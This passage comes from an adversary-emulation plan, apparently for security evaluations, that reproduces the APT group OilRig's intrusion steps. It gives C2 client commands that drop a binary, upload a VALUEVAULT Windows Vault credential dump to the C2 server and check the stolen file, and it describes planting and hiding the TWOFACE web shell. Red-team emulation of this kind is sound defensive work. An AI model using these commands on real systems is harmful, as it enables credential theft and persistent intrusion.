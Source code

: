 ```bash
./evalsC2client.py --set-task goTb '101 C:\Users\gosta\AppData\Roaming\b.exe'
```

Issue the command to upload output of VALUEVAULT to C2 after it has executed:

```bash
./evalsC2client.py --set-task goTb '103 C:\Users\gosta\AppData\Roaming\fsociety.dat'
```

Confirm that the credentials were obtained on C2 server.

```
ls ./files
cat ./files/fsociety.dat
```

<br>

### :moyai: Source Code
*  SideTwist file download: [SideTwist.cpp#L129-L154](SideTwist.cpp#L129-L154) and [comms.cpp#L78-L9](comms.cpp#L78-L97)
*  SideTwist file upload: [SideTwist.cpp#L166-L178](SideTwist.cpp#L166-L178),  
  and [SideTwist.cpp#L81](SideTwist.cpp#L81) -> [comms.cpp#L113-L12](comms.cpp#L113-L124) -> [comms.cpp#L172-L2](comms.cpp#L172-L294)

<br>

*  VALUEVAULT: [VALUEVAULT](VALUEVAULT.)
*  VALUEVAULT opens Windows Vault: [vault.go#L91-L97](vault.go#L91-L97)

<br>

### :microscope: Cited Intelligence 
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VALUEVAULT: https://www.mandiant.com/resources/hard-pass-declining-apt34-invite-to-join-their-professional-network
*  Open-source Windows Vault Password Dumper: http://web.archive.org/web/20190316025511/http://oxid.it/downloads/vaultdump.txt

<br>

## Step 4 - Install Web Shell on EWS

### :microphone: Voice Track

Step 4 emulates OilRig installing web shell persistence on `WATERFALLS (10.1.0.6)`. 
This is accomplished by downloading the TWOFACE webshell (named `contact.aspx`) 
via `SystemFailureReporter.exe`; TWOFACE is then copied from `THEBLOCK` to 
`WATERFALLS` and hidden with `attrib + h`. 

OilRig covers their tracks by deleting the webshell from `gosta`'s user 
directory on `THEBLOCK`.

---

### :biohazard: Procedures
